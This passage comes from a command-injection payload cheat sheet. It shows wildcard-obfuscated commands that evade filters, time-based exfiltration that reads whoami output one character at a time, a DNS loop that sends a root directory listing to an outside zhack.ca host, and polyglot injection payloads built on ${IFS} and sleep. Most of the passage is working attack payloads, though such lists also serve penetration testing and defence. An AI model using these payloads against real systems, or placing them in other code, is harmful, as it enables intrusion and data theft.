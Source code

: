 ### Bypass With Wildcards

```powershell
powershell C:\*\*2\n??e*d.*? # notepad
@^p^o^w^e^r^shell c:\*\*32\c*?c.e?e # calc
```


## Data Exfiltration

### Time Based Data Exfiltration

Extracting data char by char and detect the correct value based on the delay.

* Correct value: wait 5 seconds
  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
  real    0m5.007s
  user    0m0.000s
  sys 0m0.000s
  ```

* Incorrect value: no delay
  ```powershell
  swissky@crashlab:~$ time if [ $(whoami|cut -c 1) == a ]; then sleep 5; fi
  real    0m0.002s
  user    0m0.000s
  sys 0m0.000s
  ```


### Dns Based Data Exfiltration

Based on the tool from [HoLyVieR/dnsbin](https://github.com/HoLyVieR/dnsbin), also hosted at [dnsbin.zhack.ca](http://dnsbin.zhack.ca/)

1. Go to http://dnsbin.zhack.ca/
2. Execute a simple 'ls'
  ```powershell
  for i in $(ls /) ; do host "$i.3a43c7e4e57a8d0e2057.d.zhack.ca"; done
  ```

Online tools to check for DNS based data exfiltration:

- http://dnsbin.zhack.ca/
- https://app.interactsh.com/
- Burp Collaborator


## Polyglot Command Injection

A polyglot is a piece of code that is valid and executable in multiple programming languages or environments simultaneously. When we talk about "polyglot command injection," we're referring to an injection payload that can be executed in multiple contexts or environments.

* Example 1:
  ```powershell
  Payload: 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}

  # Context inside commands with single and double quote:
  echo 1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo '1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  echo "1;sleep${IFS}9;#${IFS}';sleep${IFS}9;#${IFS}";sleep${IFS}9;#${IFS}
  ```
* Example 2: 
  ```powershell
  Payload: /*$(sleep 5)`sleep 5``*/-sleep(5)-'/*$(sleep 5)`sleep 5` #*/-sleep(5)||'"||sleep(5)||"/*`*/

  ```